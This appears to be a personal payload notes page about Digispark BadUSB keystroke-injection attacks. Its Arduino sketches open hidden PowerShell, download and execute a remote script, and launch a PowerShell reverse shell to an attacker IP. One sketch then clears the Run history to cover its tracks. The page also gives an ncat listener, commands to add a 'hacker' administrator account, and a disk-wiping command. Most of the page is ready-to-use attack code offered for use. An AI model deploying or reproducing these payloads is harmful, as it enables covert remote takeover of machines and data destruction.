 ```yaml
---
title: "Payloads digispark"
author: Ludovic COULON
date: 2020-04-12
hero: ./images/hero.jpeg
excerpt: "Payloads digispark"
---
```


## Payloads generator for Windows/Linux/Mac

[Duck ToolKit](https://ducktoolkit.com/payload/windows#)

[CedArctic/DigiSpark-Scripts](https://github.com/CedArctic/DigiSpark-Scripts)

[Introduction](https://xapax.gitbooks.io/security/)

[thewhiteh4t/flashsploit](https://github.com/thewhiteh4t/flashsploit)

## Convert DuckyScripts > Digispark

[Duckuino](https://d4n5h.github.io/Duckuino/)

## All the payloads that just works 👍

**Say something on command line ශ**

# Tell something with command line interface 🎭

```arduino
#include "DigiKeyboard.h"
void setup() {
	DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("powershell");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("Add-Type -AssemblyName System.speech");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("$speak = New-Object System.Speech.Synthesis.SpeechSynthesizer");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("$speak.Speak(\"hello from digispark.\")");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);
}

void loop() {
}
```

**Create administrator account 𝌒**
**Reverse shell windows ＼**

# Reverse shell on windows 🤡

## First, on the host attacker machine create a php server and upload the payload

```php
# Start the php server
sudo php -S 0.0.0.0:80 -t /Users/zeeph/Desktop/
```

```powershell
# Create a file called payload.ps1
$client=New-Object System.Net.Sockets.TCPClient('192.168.1.90',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('192.168.1.90',1234)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

![https://i.imgur.com/QMC7DVO.png](https://i.imgur.com/QMC7DVO.png)

```bash
# Listen all the tcp connexion on port 1234
ncat -nvlp [PORT]

# Shell spawner linux only !
python -c 'import pty; pty.spawn("/bin/sh")'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e76316ca-186c-47fe-be6c-e5f77dd03b2f/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e76316ca-186c-47fe-be6c-e5f77dd03b2f/Untitled.png)

```arduino
#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.println("powershell -windowstyle hidden -nop \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.90/payload.ps1');\"");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.println("powershell \"Remove-ItemProperty -Path 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU' -Name '*' -ErrorAction SilentlyContinue\"");
}

void loop() {
}
```

**Python script with digispark ⚆**

```arduino
#include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("powershell -windowstyle hidden");
  DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT + MOD_SHIFT_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("$source = \"http://192.168.1.90/payload.py\"; $destination = \"C:/Documents\"; Invoke-WebRequest $source -OutFile $destination;");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.print("python C:/Documents/payload.py");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
void loop() {
}
```

## Useful commands

**Windows commands ̐**

# **CMD - Windows commands**

The equivalent to the Linux command `;` as in

```
echo "command 1" ; echo "command 2"
```

is

```
dir & whoami
```

### **Dealing with files and stuff**

**Delete file**

```
del
```

**Create folder/directory**

```
md folderName
```

**Show hidden files**

```
dir /A
```

**Print out file content, like cat**

```
type file.txt
```

**grep files**

```
findstr file.txt
```

### **Network**

**Show network information**

```bash
netstat -an
```

**Show network adapter info**

```bash
ipconfig
```

**Ping another machine**

```bash
ping 192.168.1.101
```

**Traceroute**

```bash
tracert
```

### **Processes**

**List processes**

```bash
tasklist
```

**Kill a process**

```bash
taskkill /PID 1532 /F
```

### **Users**

```
net users

# Add user
net user hacker my_password /add
net localgroup Administrator hacker /add

# Check if you are part of a domain
net localgroup /domain

# List all users in a domain
net users /domain
```

### **Other**

**Shutdown**

```
# Shutdown now
shutdown /s /t 0

# Restart
shutdown /r /t 0
```

**ciper - Clear data/shred**

```
Shreds the whole machine
ciper /w:C:\
```
